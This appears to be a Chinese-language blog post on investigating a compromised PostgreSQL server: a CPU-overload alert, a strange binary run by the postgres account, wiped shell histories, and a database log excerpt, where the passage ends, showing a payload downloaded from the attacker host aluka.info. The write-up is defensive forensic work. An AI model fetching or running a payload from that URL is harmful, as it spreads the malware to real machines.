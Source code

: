 # 记一次 postgresql 斯嘉丽约翰逊攻击的排查


### 背景

今天下午连续收到了腾讯云 CPU overload 报警

![CPU Usage](http://7xse6j.com1.z0.glb.clouddn.com/CPU%20Overload.png)

登服务器一看, 有个 postgres 账户跑的进程把 CPU 占满了，进程名特别奇怪。

![Htop info](http://7xse6j.com1.z0.glb.clouddn.com/htopinfo.png)




### 排查

于是根据 pid 到 `/proc/20619/stack` 下看到有一长串的 `[<ffffffff81841ff2>] entry_SYSCALL_64_fastpath+0x16/0x71` ，似乎短时间里发起大量的系统调用(prepare)并且还在不断增长。

接着 `cat /proc/20619/cmdline` 发现执行的是 `/var/lib/postgresql/9.5/main/Ac2p018-0` 这个坏家伙，查看发现这是个二进制文件，看不出问题，猜测和 postgresql 数据库有关，看起来不像是什么数据库维护脚本，第一反应是被数据库攻击了，于是查看 `/var/lib/postgresql/.bash_history` 和 `/var/lib/postgresql/.psql_history` 发现一条记录都没，显然是被手动清空了，更加确定是被 hack 了。担心已经被拿到 root 权限了，于是通过 `lastlog` 和 `last` 查看登录状态，所幸之前的 root 账户的 ip 都是我自己的，只有 postgres 这个账户看起来异常。

接着到 `/var/lib/postgresql/9.5/main/pg_log` 下查看数据库日志，抓到了几个奇怪的地方：

1. 有一个长连接持续从 `http://aluka.info/x6` 下载文件，

```
5144 --2018-08-11 15:47:30--  http://aluka.info/x6
5145 Resolving aluka.info (aluka.info)... 103.27.110.206
5146 Connecting to aluka.info (aluka.info)|103.27.110.206|:80... connected.
5147 HTTP request sent, awaiting response... 200 OK
5148 Length: 2758655 (2.6M)
5149 Saving to: ‘xmm’
5150
5151      0K .......... .......... .......... .......... ..........  1%  399K 7s
5152     50K .......... .......... .......... .......... ..........  3%  601K 5s
5153    100K .......... .......... .......... .......... ..........  5%  592K 5s
5154    150K .......... .......... .......... .......... ..........  7% 1.69M 4s
5155    200K .......... .......... .......... .......... ..........  9%  754K 4s
5156    250K .......... .......... .......... .......... .......... 11%  422K 4s
5157    300K .......... .......... .......... .......... .......... 12%  405K 4s
5158    350K .......... .......... .......... .......... .......... 14%  179K 5s
5159    400K .......... .......... .......... .......... .......... 16% 81.1K 8s
5160    450K .......... .......... .......... .......... .......... 18% 35.1K 13s
5161    500K .......... .......... .......... .......... .......... 20%  117K 13s
5162    550K .......... .......... .......... .......... .......... 22% 86.3K 14s
5163    600K .......... .......... .......... .......... .......... 24%  122K 14s
5164    650K .......... .......... .......... .......... .......... 25%  169K 13s
5165    700K .......... .......... .......... .......... .......... 27%  171K 13s
5166    750K .......... .......... .......... .......... .......... 29% 93.8K 13s
5167    800K .......... .......... .......... .......... .......... 31% 94.9K 13s
5168    850K .......... .......... .......... .......... .......... 33%  101K 13s
5169    900K .......... .......... .......... .......... .......... 35% 53.6K 14s
5170    950K .......... .......... .......... .......... .......... 37% 94.3K 14s
5171   1000K .......... .......... .......... .......... .......... 38% 77.0K 13s
5172   1050K .......... .......... .......... .......... .......... 40% 73.6K 13s
5173   1100K .......... .......... .......... .......... .......... 42% 97.2K 13s
5174   1150K .......... .......... .......... .......... .......... 44%  130K 13s
5175   1200K .......... .......... .......... .......... .......... 46%  194K 12s
5176   1250K .......... .......... .......... .......... .......... 48%  173K 12s
5177   1300K .......... .......... .......... .......... .......... 50%  109K 11s
5178   1350K .......... .......... .......... .......... .......... 51% 82.9K 11s
```